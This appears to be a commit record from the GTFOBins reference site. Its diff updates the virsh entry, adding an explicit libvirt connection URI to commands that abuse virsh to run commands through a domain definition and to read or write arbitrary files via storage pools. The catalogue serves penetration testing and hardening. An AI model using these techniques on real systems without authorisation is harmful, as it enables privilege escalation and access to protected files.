

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/virsh.md, in a window 1280 px wide. Shown: the whole page at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Fix virsh

```diff
--- a/_gtfobins/virsh.md
+++ b/_gtfobins/virsh.md
@@ -1,6 +1,6 @@
 ---
 description: |
-  This requires the user to be privileged enough to connect to the libvirt daemon, i.e. being in the `libvirt` group.
+  This requires the user to be privileged enough to connect to the libvirt daemon, i.e. being in the `libvirt` group or be able to run `virsh` as sudo.
 
 functions:
   command:
@@ -22,23 +22,23 @@ functions:
           </devices>
         </domain>
         EOF
-        virsh create $TF
-        virsh destroy foo
+        virsh -c qemu:///system create $TF
+        virsh -c qemu:///system destroy foo
   file-write:
     - description: Write a file by creating a storage pool on the target directory and uploading the file as a volume. If the target directory doesn't exist `pool-create-as` must be run with the `--build` option. Directories are created with permissions 711, and files with permissions 600. These can be modified using `pool-create|vol-create` with an XML definition file instead of using `pool-create-as|vol-create-as`. Sample XML files can be obtained with `pool-dumpxml|vol-dumpxml`.
       code: |
         LPATH=file_to_read
         RPATH=file_to_save
-        virsh pool-create-as $(dirname $RPATH|tr / _) dir --target $(dirname $RPATH)
-        virsh vol-create-as $(dirname $RPATH|tr / _) $(basename $RPATH) 0
-        virsh vol-upload $RPATH $LPATH
-        virsh pool-destroy $(dirname $RPATH|tr / _)
+        virsh -c qemu:///system pool-create-as $(dirname $RPATH|tr / _) dir --target $(dirname $RPATH)
+        virsh -c qemu:///system vol-create-as $(dirname $RPATH|tr / _) $(basename $RPATH) 0
+        virsh -c qemu:///system vol-upload $RPATH $LPATH
+        virsh -c qemu:///system pool-destroy $(dirname $RPATH|tr / _)
   file-read:
     - description: Read a file by creating a storage pool on the target directory and downloading the file as a volume.
       code: |
         RPATH=file_to_get
         LPATH=file_to_save
-        virsh pool-create-as $(dirname $RPATH|tr / _) dir --target $(dirname $RPATH)
-        virsh vol-download $RPATH $LPATH
-        virsh pool-destroy $(dirname $RPATH|tr / _)
+        virsh -c qemu:///system pool-create-as $(dirname $RPATH|tr / _) dir --target $(dirname $RPATH)
+        virsh -c qemu:///system vol-download $RPATH $LPATH
+        virsh -c qemu:///system pool-destroy $(dirname $RPATH|tr / _)
 ---
```
